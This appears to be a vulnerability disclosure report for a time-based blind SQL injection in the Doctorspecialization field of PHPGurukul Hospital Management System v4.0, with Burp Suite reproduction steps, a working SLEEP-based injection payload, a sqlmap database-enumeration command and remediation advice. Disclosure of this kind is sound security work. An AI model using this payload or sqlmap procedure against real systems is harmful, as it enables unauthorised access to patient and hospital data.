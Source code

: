 
# Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `hospital/hms/doctor/edit-profile.php`                                              |
| **Affected Parameter**| `Doctorspecialization`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind SQL injection vulnerability exists in the `Doctorspecialization` parameter (email field) of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the doctor Login page, which redirects to `index.php`.
- Fill in the email and password fields and autheticate. Then navigate to edit-profile.php fill any data you wish turn on interceprt. 

```
http://192.168.137.89/hospital/hms/doctor/
```

![Login Page](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/1.png)

![Login Page](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/1.png)

---

### 2. Intercept the Request

- Send the intercepted request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `Doctorspecialization` field to identify injection points.
- Save the modified HTTP request as `sql` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/2.png)

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/2.png)


---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `Doctorspecialization` field to test time-based SQL injection manually:

```sql
Doctorspecialization=ENT' AND (SELECT 5721 FROM (SELECT(SLEEP(5)))lDqQ) AND 'HSVc'='HSVc&docname=&clinicaddress=&docfees=300&doccontact=123456789&docemail=doctor@email.com&submit=
```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql --dbs
```

- This command uses the `sql` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/3.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/5.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/5.png)

---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-08 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
